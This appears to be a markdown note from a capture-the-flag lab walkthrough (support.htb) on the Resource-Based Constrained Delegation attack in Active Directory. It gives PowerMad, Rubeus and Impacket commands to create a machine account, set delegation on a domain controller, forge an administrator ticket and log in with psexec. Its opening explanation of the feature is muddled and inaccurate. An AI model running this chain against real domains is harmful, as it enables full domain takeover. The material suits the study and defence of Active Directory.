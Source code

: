 
## Resource-Based Constraint Delegation

Resource-Based Constraint Delegation is a feature in Active Directory that allows administrators to specify which users or groups are allowed to delegate their permissions to other users or groups. This can be useful in situations where a user needs to perform a task that requires permissions that they do not have, but a user with the necessary permissions trusts them to perform the task on their behalf. For example, an administrator may allow a group of IT technicians to delegate their permissions to reset user passwords, as long as the request is made by a member of the HR department.

## Configuring RBCD

**RBCD** is configured by setting the `**msDS-AllowedToActOnBehalfOfOtherIdentity**` attribute. This attribute specifies which service accounts or systems are permitted to act on behalf of users to access the target resource.

To exploit this type of delegation, an attacker must gain access to an account with Write permissions on the targeted resource (computer object), such as `GenericAll`, `GenericWrite`, and `WriteDACL`. This access is necessary to modify the Resource-Based Constrained Delegation (RBCD) settings on the targeted resource.

## RBCD Attack Requirements and Flow

## Attack Requirements

- Obtain access to an account with Write permissions to modify a computer object’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, granting permissions to the compromised account.
- Control an object with a Service Principal Name (SPN). This could involve using an existing computer where we hold administrator privileges or creating a fake computer object if necessary.

## Attack Steps

The steps below summarize the RBCD attack to understand the attack flow:

1. The attacker gains access to a domain user account that can add computers to the domain. By default, domain users are part of the Authenticated Users group, allowing them to add up to 10 computers to the domain.

**_Note:_** _Remember, it is not always the case; sometimes administrators will set the_ `_ms-ds-machineaccountquota_` _attribute to 0 to prevent these attacks.)_

2. The compromised user must have Write privileges over the targeted computer. Required permissions include `GenericAll`, `GenericWrite`, or `WriteDACL`.

3. The attacker modifies the target computer’s `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute to specify a service account they control.

4. The attacker requests a service ticket to impersonate a high-privileged user, such as a domain admin, to access the target computer.

5. Using the issued ticket, the attacker gains access to the target computer.
## Tools Required

#### 1. [PowerMad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
#### 2. [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
#### 3. [Powershell AD module](https://github.com/samratashok/ADModule.git)
#### 4. [Impacket Tools](https://github.com/fortra/impacket)
#### 5. [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

#### S4UProxy

S4UProxy is a feature in Active Directory that allows a user to obtain a service ticket for a different user without knowing their password. This feature is typically used in situations where a service account needs to access a resource on behalf of a user, but the service account is not trusted to know the user's password. S4USelf works in a very similar way, allowing a user to obtain a ticket for itself. In a S4UProxy attack, an attacker exploits this feature to obtain a service ticket for a high-privileged account, such as an administrator account, without knowing the password for the account. The attacker can then use the service ticket to access resources and perform actions that are normally restricted to the high-privileged account.

### Chaining it together

First, we leverage [[01-Technique(RBCD)#1. [PowerMad](https //github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)]]to create a new machine account using our `GenericAll` privileges on the domain.

```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

Now we set the `PrincipalsAllowedToDelegateToAccount` to allow for `SERVICEA` to impersonate any user against our target `DC`

```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount SERVICEA$
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```

Next, we use `Rubeus` to get a hash of our password. In a second step, we perform a the actual `S4U` attack, which can be done with Rubeus as well. Please note that this step abuses intended functionality, and requires the above mentioned misconfigurations to be present. In this case we have `GenericAll` or any other write privileges on the target machine, which allowed us to misconfigure the rest ourselves.

```
.\Rubeus.exe hash /password:123456 /user:SERVICEA$ /domain:support.htb

.\rubeus.exe s4u /user:SERVICEA$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb  /ptt
```

This is the basic attack, but more work is needed to login, as the ticket is injected into memory by `Rubeus` and usually intended to use immediately within a multi-machine environment. Grab the ticket and format it, then convert it to a usable ticket for impacket.

```
echo <ticket> | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
```

Now we can use impacket psexec to login:

```
psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174
